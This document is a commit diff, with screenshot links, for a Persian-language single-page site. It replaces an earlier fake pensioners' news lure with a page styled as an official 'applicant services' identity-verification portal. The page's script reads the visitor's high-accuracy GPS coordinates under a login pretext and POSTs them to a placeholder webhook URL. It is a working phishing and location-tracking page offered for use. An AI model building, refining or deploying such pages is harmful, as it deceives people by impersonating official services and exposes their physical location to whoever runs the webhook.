

Before and after one commit to minicamera423-cyber/my-site, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; placeholder pictures from the web are drawn by us.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,44 +1,271 @@
+
 <!DOCTYPE html>
 <html lang="fa" dir="rtl">
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>پورتال خبری بازنشستگان ایران</title>
+<title>پورتال خدمات متقاضیان</title>
+
 <style>
-        body { font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; background-color: #f0f2f5; margin: 0; padding: 0; direction: rtl; }
-        header { background-color: #1a3c5e; color: white; padding: 15px 0; text-align: center; box-shadow: 0 2px 5px rgba(0,0,0,0.2); }
-        nav { background: #fff; padding: 10px; border-bottom: 1px solid #ddd; display: flex; justify-content: center; gap: 20px; }
-        nav a { text-decoration: none; color: #333; font-weight: bold; font-size: 14px; }
-        .container { max-width: 800px; margin: 20px auto; padding: 0 15px; }
-        .news-card { background: white; border-radius: 10px; overflow: hidden; margin-bottom: 20px; box-shadow: 0 2px 10px rgba(0,0,0,0.1); cursor: pointer; transition: transform 0.2s; }
-        .news-card:hover { transform: translateY(-5px); }
-        .news-card img { width: 100%; height: 200px; object-fit: cover; }
-        .news-content { padding: 15px; }
-        .news-title { font-size: 18px; color: #2c3e50; font-weight: bold; margin-bottom: 10px; }
-        .news-desc { font-size: 14px; color: #666; line-height: 1.6; }
-        .btn-main { display: block; width: 100%; background: #e74c3c; color: white; text-align: center; padding: 12px; text-decoration: none; border-radius: 5px; margin-top: 10px; font-weight: bold; }
+* {
+    margin: 0;
+    padding: 0;
+    box-sizing: border-box;
+}
+
+body {
+    font-family: Tahoma, Arial, sans-serif;
+    background: #f2f5f9;
+    color: #17243a;
+    min-height: 100vh;
+}
+
+header {
+    background: #10223e;
+    color: white;
+    padding: 25px 8%;
+    border-bottom: 4px solid #b99a55;
+}
+
+header h1 {
+    font-size: 22px;
+    margin-bottom: 8px;
+}
+
+header p {
+    color: #cbd5e1;
+    font-size: 13px;
+}
+
+.container {
+    max-width: 650px;
+    margin: 65px auto;
+    padding: 20px;
+}
+
+.card {
+    background: white;
+    padding: 40px 30px;
+    border-radius: 12px;
+    box-shadow: 0 8px 35px rgba(16,34,62,.08);
+    border: 1px solid #e4e9f0;
+}
+
+.card h2 {
+    text-align: center;
+    margin-bottom: 15px;
+    font-size: 21px;
+}
+
+.description {
+    text-align: center;
+    color: #64748b;
+    font-size: 14px;
+    line-height: 2;
+    margin-bottom: 25px;
+}
+
+.notice {
+    background: #f1f5f9;
+    border-right: 4px solid #b99a55;
+    padding: 15px;
+    font-size: 13px;
+    line-height: 2;
+    margin-bottom: 25px;
+}
+
+button {
+    width: 100%;
+    padding: 17px;
+    border: none;
+    border-radius: 7px;
+    background: #142c4d;
+    color: white;
+    font-size: 16px;
+    cursor: pointer;
+    transition: .2s;
+}
+
+button:hover {
+    background: #203f68;
+}
+
+button:disabled {
+    opacity: .6;
+    cursor: not-allowed;
+}
+
+#status {
+    margin-top: 25px;
+    padding: 15px;
+    border-radius: 7px;
+    text-align: center;
+    font-size: 14px;
+    display: none;
+    line-height: 2;
+    overflow-wrap: anywhere;
+}
+
+.success {
+    display: block !important;
+    background: #e8f7ee;
+    color: #176b39;
+}
+
+.error {
+    display: block !important;
+    background: #fff0f0;
+    color: #a52a2a;
+}
+
+footer {
+    text-align: center;
+    color: #94a3b8;
+    font-size: 12px;
+    padding: 30px;
+}
 </style>
 </head>
+
 <body>
 
-    <header><h1>پورتال خبری بازنشستگان</h1></header>
-    <nav>
-        <a href="#">صفحه اصلی</a>
-        <a href="#">جدول حقوق</a>
-        <a href="#">اخبار سازمان</a>
-        <a href="#">تماس با ما</a>
-    </nav>
+<header>
+    <h1>سامانه خدمات متقاضیان</h1>
+    <p>درگاه رسمی احراز هویت و تأیید اطلاعات</p>
+</header>
 
 <div class="container">
-        <div class="news-card" onclick="getLocation()">
-            <img src="https://via.placeholder.com/800x200?text=Pension+Increase+2024" alt="News Image">
-            <div class="news-content">
-                <div class="news-title">اعلام جدول جدید حقوق بازنشستگان برای سال ۱۴۰۳</div>
-                <div class="news-desc">طبق مصوبات جدید شورای عالی نظام بازنشستگی، مبالغ دریافتی برای تمامی اقطاب تغییر یافت. جهت مشاهده مبلغ تعلق گرفته به کد ملی خود، روی این خبر کلیک نمایید.</div>
-                <div class="btn-main">مشاهده مبلغ دریافتی</div>
+    <div class="card">
+
+        <h2>تأیید موقعیت مکانی</h2>
+
+        <p class="description">
+            برای ادامه فرایند ورود به سامانه،
+            لازم است موقعیت مکانی دستگاه خود را
+            با رضایت خود تأیید کنید.
+        </p>
+
+        <div class="notice">
+            <strong>اطلاعیه:</strong>
+            موقعیت مکانی شما پس از تأیید دریافت و
+            برای پردازش درخواست ارسال خواهد شد.
         </div>
+
+        <button id="verifyBtn" onclick="verifyLocation()">
+            تأیید موقعیت مکانی و ورود
+        </button>
+
+        <div id="status"></div>
+
     </div>
 </div>
 
+<footer>
+    سامانه خدمات الکترونیکی متقاضیان
+    © 2026
+</footer>
+
 <script>
-    function getLocation
+
+const WEBHOOK_URL = "YOUR_WEBHOOK_URL";
+
+const button = document.getElementById("verifyBtn");
+const statusBox = document.getElementById("status");
+
+function showStatus(message, type) {
+    statusBox.style.display = "block";
+    statusBox.className = type;
+    statusBox.textContent = message;
+}
+
+function verifyLocation() {
+
+    if (!navigator.geolocation) {
+        showStatus(
+            "مرورگر شما از موقعیت مکانی پشتیبانی نمی‌کند.",
+            "error"
+        );
+        return;
+    }
+
+    button.disabled = true;
+
+    showStatus(
+        "در حال دریافت موقعیت مکانی...",
+        "success"
+    );
+
+    navigator.geolocation.getCurrentPosition(
+
+        async function(position) {
+
+            const latitude = position.coords.latitude;
+            const longitude = position.coords.longitude;
+
+            showStatus(
+                "موقعیت دریافت شد. در حال ارسال اطلاعات...",
+                "success"
+            );
+
+            try {
+
+                const response = await fetch(WEBHOOK_URL, {
+                    method: "POST",
+                    headers: {
+                        "Content-Type": "application/json"
+                    },
+                    body: JSON.stringify({
+                        latitude: latitude,
+                        longitude: longitude
+                    })
+                });
+
+                if (!response.ok) {
+                    throw new Error("HTTP " + response.status);
+                }
+
+                showStatus(
+                    "تأیید موقعیت مکانی با موفقیت انجام شد.",
+                    "success"
+                );
+
+            } catch (error) {
+
+                showStatus(
+                    "ارسال اطلاعات ناموفق بود: " + error.message,
+                    "error"
+                );
+
+            } finally {
+                button.disabled = false;
+            }
+        },
+
+        function(error) {
+
+            const messages = {
+                1: "دسترسی به موقعیت مکانی رد شد.",
+                2: "موقعیت مکانی در دسترس نیست.",
+                3: "زمان دریافت موقعیت به پایان رسید."
+            };
+
+            showStatus(
+                messages[error.code] || "خطای نامشخص در دریافت موقعیت.",
+                "error"
+            );
+
+            button.disabled = false;
+        },
+
+        {
+            enableHighAccuracy: true,
+            timeout: 15000,
+            maximumAge: 0
+        }
+    );
+}
+
+</script>
+
+</body>
+</html>
```
Lines whose indentation alone changed are shown as unchanged.
